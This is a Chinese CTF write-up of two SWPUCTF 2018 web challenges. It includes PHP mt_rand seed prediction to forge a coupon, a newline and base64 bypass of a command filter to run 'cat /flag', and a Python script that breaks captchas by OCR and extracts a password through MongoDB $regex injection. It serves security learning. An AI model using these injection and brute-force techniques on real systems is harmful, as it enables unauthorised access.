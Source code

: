 ```yaml
---
title: SWPUCTF 2018 部分Web write up
date: 2018-12-23 10:17:17
tags:
    - CTF
    - web安全
---
```



## 用优惠劵买个X?


登录后给了一个优惠券，存在cookie的Auth里  
![](/img/swpu/1.png)  

在购买界面输入该优惠券返回说需要24位的优惠券。  
扫描目标站点发现有www.zip,下载打开发现source.php

```
<?php
//生成优惠码
$_SESSION['seed']=rand(0,999999999);
function youhuima(){
    mt_srand($_SESSION['seed']);
    $str_rand = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    $auth='';
    $len=15;
    for ( $i = 0; $i < $len; $i++ ){
        if($i<=($len/2))
              $auth.=substr($str_rand,mt_rand(0, strlen($str_rand) - 1), 1);
        else
              $auth.=substr($str_rand,(mt_rand(0, strlen($str_rand) - 1))*-1, 1);
    }
    setcookie('Auth', $auth);
}
//support
    if (preg_match("/^\d+\.\d+\.\d+\.\d+$/im",$ip)){
        if (!preg_match("/\?|flag|}|cat|echo|\*/i",$ip)){
               //执行命令
        }else {
              //flag字段和某些字符被过滤!
        }
    }else{
             // 你的输入不正确!
    }
?>
```

判断需要利用PHP伪随机预测出24位的优惠码，利用了wonderkun的博客里介绍的方法和脚本。  
首先根据源码构造脚本如下，计算出每次的mt_rand()的值，并且按照工具php_mt_seed的参数要求打印。这里要注意的是，不同版本的PHP在执行mt_rand()会有不同，而根据网页的响应头得知服务器版本为7.2.9，因此在执行下面的脚本时也需要使用7.2版本的PHP。

```
<?php
$str="HNzlZc7wgMWEfWN";
$str_rand = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
for($i=0;$i<15;$i++){
  if($i<=(15/2)){
    $pos=strpos($str_rand,$str[$i]);  
    echo $pos." ".$pos." 0 ".(strlen($str_rand)-1)." ";
  }               
  else{
    $pos = strlen($str_rand)-strpos($randstr,$str[$i]);
    echo $pos." ".$pos." 0 ".(strlen($str_rand)-1);
  }
}
?>
```

接着使用php_mt_seed爆破出结果
![](/img/swpu/2.png)  

放入原脚本中，并且加入代码mt_srand(506450967),并把优惠券长度改为24位，即可得到24位的优惠券。

![](/img/swpu/3.png)  

输入会显示购买成功，然后就来到第二个页面，要求输入ip。观察源码，需要绕过两个正则，第一个正则有/m参数，即在每个换行符前后进行句首(^)句尾($)匹配，匹配成功一次即可返回正确，利用%0a可以绕过。第二个正则可以利用base64编码绕过。让服务器执行cat /flag即可  
![](/img/swpu/44.png)

## injection ???

测试sql注入不成功，在F12里看到有info.php，打开后是phpinfo，在里面看到开启了mongodb,猜测为NoSQL注入，测试?username[\$ne]=123&password[\$ne]=123发现成功注入，但是回显不是正确的密码，猜测需要注入得到正确的密码。利用[\$regex]配合^可以一位一位的得到正确的密码。该页面登录需要验证码，使用pytesseract库进行破解。构造脚本如下

```
import pytesseract
import requests,string
from PIL import Image
import time 
s=requests.session()
passwd=''
for  j  in range(30):
    for i in string.printable:
        while True:
            time.sleep(1)
            r=s.get('http://123.206.213.66:45678/vertify.php')
            with open('yzm.jpg','wb') as f:
                f.write(r.content)
            cap=pytesseract.image_to_string(Image.open('yzm.jpg'))
            url='http://123.206.213.66:45678/check.php?username[$ne]=123&password[$regex]=^{}&vertify={}'
            print(url.format(passwd+i,cap))
            r=s.get(url.format(passwd+i,cap))
            print(r.text)
            if not 'wrong' in r.text:
                break
        if 'Nice'  in r.text:
            passwd+=i
            print(passwd)
            break
```

即可得到正确的密码，登录即可getflag。






